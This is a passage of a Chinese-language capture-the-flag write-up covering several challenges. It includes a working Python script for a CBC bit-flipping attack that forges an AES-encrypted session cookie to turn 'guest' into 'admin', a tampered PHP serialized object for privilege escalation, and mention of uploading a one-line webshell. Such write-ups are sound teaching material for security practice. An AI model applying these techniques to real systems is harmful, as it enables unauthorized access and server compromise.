 本来程序有一个识别到`retfq`就不执行的操作，被我用`push 0;`给过了（据出题人说这是个非预期

## Web

### checkin | Humoooor

看一下`user`格式

```
{Name: "guest", CreateAt: time, IP: ip}
```

然后用`AES`加密，由于题目中使用`CBC`加密方式，可以使用字节翻转攻击，把明文里的`guest`修改成`admin`

```python
import base64
from urllib import parse
import requests
from Crypto.Cipher import AES

# for n in range(0, 50):
n = 9
s = "MDAwMTE0NTE0MTkxOTgxMOSJAwAU25w+xwD1vPGvUJFzC5pjZHkNYZPk6Oemt/1+hemCgS01dtaQOn6AzORO5T0KSgZJwSVUqOVeciuqtP4="
s = base64.b64decode(s)
s = list(s)
s[n] = s[n] ^ ord('g') ^ ord('a')
s[n + 1] = s[n + 1] ^ ord('u') ^ ord('d')
s[n + 2] = s[n + 2] ^ ord('e') ^ ord('m')
s[n + 3] = s[n + 3] ^ ord('s') ^ ord('i')
s[n + 4] = s[n + 4] ^ ord('t') ^ ord('n')
# print(base64.b64encode(bytes(s)))

url = "http://2bd0c152-8019-43b7-9601-7f539392b2cd.archive.xdsec.chall.frankli.site:8080/home"
cookie = {'token': parse.quote(base64.b64encode(bytes(s)))}
res = requests.get(url, cookies=cookie)

print(str(res) + res.text)
```

wsm web里会有密🐎（

### include | Humoooor

先有一个身份验证`O:4:"user":1:{s:9:"usergroup";s:7:"Tourist";}`

把`Tourist`改成`Lteam`就可以了，然后上传一句话木马，真的有这么白给？

## Misc

### Paralympics | Humoooor

就一直用`CE`扫，然后手筛地址，有一个坑就是有可能找的是`camera`的地址，一改就会位置就会变
